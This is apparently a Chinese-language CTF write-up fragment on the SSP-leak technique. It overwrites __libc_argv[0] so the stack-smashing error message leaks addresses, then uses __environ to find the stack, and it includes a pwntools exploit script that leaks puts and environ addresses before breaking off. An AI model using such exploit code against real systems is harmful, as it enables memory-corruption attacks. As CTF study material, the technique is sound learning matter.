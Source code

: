 二进制文件名存贮在`__libc_argv[0]`中，所以只要我们覆盖了这个地址，就可以直接进行任意地址泄露

同时，在libc中有一个变量，叫做`__environ`，这个变量储存着此时栈的地址，并且指向的地址是`__libc_argv[0]+0x10`

```python
from pwn import *
from LibcSearcher import *
#context.log_level = 'debug'

arg_0 = 0x7fffffffe328
what_to_do = 0x7fffffffe200
ebp = 0x7fffffffe1f0

sh = process("./pwn")
#sh = remote("172.10.0.4","10085")
elf = ELF("./pwn")
libc = ELF("./libc-2.23.so")
what_to_do - ebp-0x40
en_flag = ebp - 0xa4
offset = arg_0 -what_to_do

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

#sh = remote("172.10.0.4","10085")
payload =  cyclic(offset)+p64(puts_got)
# first
sh.recvuntil(b"What's your name?\n")
sh.sendline(b'aaaa')

sh.recvuntil(b"What do you want to do?\n")
sh.sendline(payload)

sh.recvuntil(b"detected ***:")
puts_addr = u64(sh.recvuntil(b" terminated\n",drop = True)[-6:].ljust(8,b"\x00"))

print(hex(puts_addr))

libc_base = puts_addr - libc.sym["puts"]

print(hex(libc_base))	
# second
sh.recvuntil(b"What's your name?\n")
sh.sendline(b'aaaa')

sh.recvuntil(b"What do you want to do?\n")

payload = cyclic(offset)+p64(libc_base + libc.sym['__environ'])
sh.sendline(payload)

sh.recvuntil(b"detected ***:")
environ_addr = u64(sh.recvuntil(b" terminated\n",drop = True)[-6:].ljust(8,b"\x00"))

print(hex(environ_addr))
	
# third
print("3")
sh.recvuntil(b"What's your name?\n")
sh.sendline(b'aaaa')
rand_id = int(sh.recvuntil(b"\n",drop = True)[-2:])

print(rand_id)

sh.recvuntil(b"What do you want to do?\n")
#gdb.attach(sh)
```